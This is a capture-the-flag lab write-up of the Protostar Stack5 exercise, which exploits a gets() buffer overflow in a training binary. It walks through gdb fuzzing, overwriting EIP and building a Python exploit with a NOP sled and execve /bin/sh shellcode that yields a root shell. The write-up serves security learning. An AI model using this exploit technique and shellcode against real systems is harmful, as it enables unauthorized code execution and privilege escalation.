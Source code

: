# [cd ../](../index.md)
# Stack5

> Stack5 is a standard buffer overflow, this time introducing shellcode.
> Hints
- At this point in time, it might be easier to use someone elses shellcode
- If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
- remove the int3s once your shellcode is done.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Interesting
- Very little code
- We **dont** have a win function so we have to gain root shell

# Starting it
## Fuzzing
- Try the changing pattern in gdb
```
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```
as input and see where it segfaults  
Cmds:
```
gdb stack5
r < fuzzingpattern
info registers
```
![fuzz1](fuzz1.png)  
- **ebp** = **S**, **eip** = **T**
- We can `disass main` and we can `break *0x080483da` (the address of **ret**)
- And we can `define hook-stop`  
![hook](hook.png)
## Change the exploit

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS'
eip = struct.pack('I', 0x41414141)
print padding+eip
```

- Now we can test it
- The program returned to our **last stack** address.
![return](return.png)

## The exploit
- We have to jump to a valid location like **esp**
- After hitting the breakpoint we can `si` (step 1 instruction) and `info registers`
- We have the address of **esp** now `0xbffff7c0`
- Change the exploit a lilbit by changing the `0x41`'s to `0xbffff7c0`
- We have to append the shellcode that we want to execute after the return pointer
- We have to use the **INT3** (breakpoint) code now `\xCC`

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS'
eip = struct.pack('I', 0xbffff7c0)
payload = '\xCC'*4
print padding+eip+payload
```

![int3](int3.png)  
- We have code execution now
- We need a [shellcode](http://shell-storm.org/shellcode/) from this page and we will use [this](http://shell-storm.org/shellcode/files/shellcode-811.php) simple **execve**
- Copy the bytes to our python script as the payload variable
- Our code isnt working cuz we forgot to add some **NOP** instructions
- Lets add some lines to the code

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS'
eip = struct.pack('I', 0xbffff7c0+30)
nop = '\x90'*100
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print padding+eip+nop+payload
```

- We can run it now with `python stack5.py | ./stack5`
  - We got nothing back cuz our shell auomatically closes when the program terminates
  - We can bypass this with `(python stack5.py ; cat) | ./stack5`  
![gotroot](gotroot.png)

# BOOM WE GOT THE SHELL AS ROOT
